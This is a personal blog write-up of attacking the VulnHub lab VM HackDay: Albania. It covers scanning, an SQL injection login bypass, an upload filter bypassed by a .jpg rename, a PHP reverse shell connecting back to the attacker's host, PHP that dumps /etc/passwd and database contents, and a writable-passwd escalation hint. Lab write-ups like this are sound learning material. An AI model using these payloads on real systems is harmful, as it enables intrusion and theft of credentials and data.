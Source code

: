 ```yaml
---
layout: post
title:  "First Stab at a Vulnhub VM"
date:   2017-2-8 19:20:00 -0400
categories: update post exploitation vulnhub penetration-test
---
```

<h1>Introduction</h1>
VulnHub is a website the hosts a growing series of virtual machines as challenges in learning penetration testing, and I pulled one of their recent VMs, HackDay: Albania, the night before I wrote this post. I managed to get remote code execution and a connect back shell before I hit the end of the night and got a hint on actually escalating privilege to root. The way I went about it is more relaxed than it should be in any penetration test, but I had a limited amount of time to really dig around in attacking it. Below is my write-up.

<h1>Scanning</h1>
I started up the VM under a Host-Only adapter who's ip-range came after 192.168.56.1. Netdiscover and me weren't getting along too well, so I just used nmap to get two things done at once. I scanned the range and noted the ports open on the host. 

{% highlight text %}
$ nmap -T5 192.168.56.1-255

Starting Nmap 7.01 ( https://nmap.org ) at 2017-02-07 23:17 EST
Nmap scan report for 192.168.56.1
...

Nmap scan report for 192.168.56.101
Host is up (0.0012s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
8008/tcp open  http
{% endhighlight %}

I was pretty sure that was it, and was very doubtful that I'd have much to gain early on from trying ssh.

<h1>Attacking</h1>
I went to the http site right off, and was greeted with a hilarious background image of Rami Malek in Mr. Robot.

<img src="/pics/mr-robot-background.png">

Get it? The page had a modal window with a language I can't read, but I think translates to something like "if I were me, I'd know where to go," and with the hint of the background image I went right in to the robots.txt. There I saw several directories, but poking inside one at random I got some troll meme.

<img src="/pics/meme-lizard.jpg">

I decided to use Python then to open all of them, figuring the secret was probably within one of them.

{% highlight BASH %}
$ wget 192.168.56.101:8008/robots.txt
{% endhighlight %}
{% highlight Python %}
$ python
Python 2.7.12 (default, Nov 19 2016, 06:48:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> f = file("robots.txt")
>>> lines = f.readlines()
>>> dirs = []
>>> for l in lines:
...   dirs.append(l[10:-1])
... 
>>> dirs
['/rkfpuzrahngvat/', '/slgqvasbiohwbu/', '/tmhrwbtcjpixcv/', '/vojtydvelrkzex/', '/wpkuzewfmslafy/', '/xqlvafxgntmbgz/', '/yrmwbgyhouncha/', '/zsnxchzipvodib/', '/atoydiajqwpejc/', '/bupzejbkrxqfkd/', '/cvqafkclsyrgle/', '/unisxcudkqjydw/', '/dwrbgldmtzshmf/', '/exschmenuating/', '/fytdinfovbujoh/', '/gzuejogpwcvkpi/', '/havfkphqxdwlqj/', '/ibwglqiryexmrk/', '/jcxhmrjszfynsl/', '/kdyinsktagzotm/', '/lezjotlubhapun/', '/mfakpumvcibqvo/', '/ngblqvnwdjcrwp/', '/ohcmrwoxekdsxq/', '/pidnsxpyfletyr/', '/qjeotyqzgmfuzs/']
>>> site = "192.168.56.101:8008"
>>> import subprocess
>>> for dir in dirs:
...   subprocess.call(["google-chrome", site+dir])
... 
{% endhighlight %}

LOTS of browser tabs flew open, and the one fruitful directory presented a hint that I should go deeper into /vulnbank/. This brought me to a login page that was vulnerable to SQL injection. I first gave a few tries akin to "' OR '1'='1'-- " in both of them, but something was off that caused it to fail. The error message at the very least though confirmed that this was a MySQL database, so I wouldn't have to learn much new if I were to make a connection to the MySQL database. I tried a few other combinations before seeing that "' OR *" for the username field worked just fine with the first string I tried in the password field.

<img src="/pics/vulnbank.png">

I lost my original screenshot of when I first saw the page, but here it is after I played with it for a while. 

Charles D. Hobson has an interesting name and lots of money, and the page presented for him had an odd section for "Open Tickets". The support box has a file upload entry form, which looks real attractive for exploiting. Without knowing what happened to these uploads yet, I uploaded an shell script for connecting back to a netcat listener. This created an open ticket for me, and there I spotted an img linked to "view_file.php?filename=shell.sh" in Chrome's Dev Tools. 

Cool. Heading directly there though, I got back

	Only images are allowed to get included. We hate hackers.

Alright...So I tried many a workaround for getting my upload properly included, from null byte poisoning, to file redirection, but what worked was something I found <a href="http://security.stackexchange.com/questions/45156/php-null-byte-include-failing-explation-seeked">here</a>. The simplest thing was of course the solution, and I just had to rename the file to end with ".jpg". Thanks a lot, wireghoul. I stole some PHP connect back code that looked like...

{% highlight PHP %}
<?php

$sock = fsockopen("192.168.56.1", 40); exec("/bin/bash -i <&3 >&3 2>&3");

?>
{% endhighlight %}

I turned off my firewall, opened a terminal with "nc -l 40" to listen for a connection on port 40, and opened the page again. What's pecular is my netcat listener received a connection right away, but the connection was closed as soon as it came. This drove me some kind of mad in confusion, but I was pretty sure I had command execution at the very least. Without a working shell, I decided to disclose as much as possible of what sounded interesting at the time. I was still wondering if there were creds for me to steal for a login to ssh. The PHP I used looked kinda like...

{% highlight PHP %}

<?php
	echo shell_exec("uname -a");
	echo "<br>passwd...<br>";
	echo shell_exec("cat /etc/passwd"); //hope for some passwords to crack
	echo "<br>";

	echo shell_exec("ls /home/"); //enumerate users better this time...
	echo "<br>";

	//dump DB?

	$query = "SELECT * FROM klienti";
	$res = execute_query($query);
	while($result = mysqli_fetch_assoc($res)){
				  var_dump($result);
				  echo "<br>";
	}
	
	echo shell_exec("cat /var/www/html/unisxcudkqjydw/vulnbank/client/*"); //dumping the source of everything in the directory

	//...and so forth
?>

{% endhighlight %}

I let all of the source spill out onto the page, and took notice of the passwd file, the database creds, the OS identification, and a great big meme.

<img src="/pics/suchhaxor.png" title="So meme.">

Within the passwd file, I noticed that there was one user <i>taviso</i> with an <i>x</i> where I wanted to find a password hash. So that secret was probably in the shadow instead, but apache didn't have the permissions to read that.

Within the database creds, I took down hobson:Charles123, and jeff:jeff321, but these didn't look promising for anything else because neither username was in the passwd file. I tried to SSH with them anyway, but that was a futile effort.

The OS identification made it feel like the kernel version was too new for Dirty Cow or any related exploit I could try to cobble together.

Eventually I did decide to go looking for what PHP reverse shell scripts other people were using, and I found <a href="http://pentestmonkey.net/tools/web-shells/php-reverse-shell" >this one from PentestMonkey</a> to be promising. Uploading it, running my netcat listener, and receiving the shell was surprisingly painless. 

<h1>Where I Ended</h1>
That's about as far as I got with the VM. I had a shell, but a particular note came with it.

	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	/bin/sh: 0: can't access tty; job control turned off

Without a tty, I apparently couldn't even try the <i>su</i> command, or a variety of others. taviso's home folder was barren of any binaries I could exploit or configuration files I could write to, and he had no .ssh directory. I listed back through again all of the content hosted on the web server, but it was all data I had taken note of already. It was 3AM and I was stuck on escalating my priviledges much further, and so I finally gave up and looked up a hint.

Surprisingly, the /etc/passwd file is writable by any user.

	$ ls -al /etc/passwd
	-rw-r--rw- 1 root root 1795 Feb  9 20:20 /etc/passwd 

With this, anyone could write their own user into the passwd file. After generating a password with <b>openssl passwd -1 -salt somesalt easypassword</b>, one would need only concatenate the file before changing into the user. My issue though?

	$ su
	su: must be run from a terminal

/dev/console can't be rm'd with the permissions of www-data, and neither Make, GCC, TCC, or Python is installed in the VM. There is Perl, but I couldn't figure out anything I could accomplish with Perl that the PHP shell script hadn't already tried. So this is about where I decided I was done. I don't have the flag, but I'm happy enough with the shell I got, unless someone out there would like to give me the low down on stealing tty devices, or escalating my priviledges without one. 

<h1>The Day After</h1>

<img src="/pics/wot.png">

...I guess my mistake was not running the VM in headless mode. 

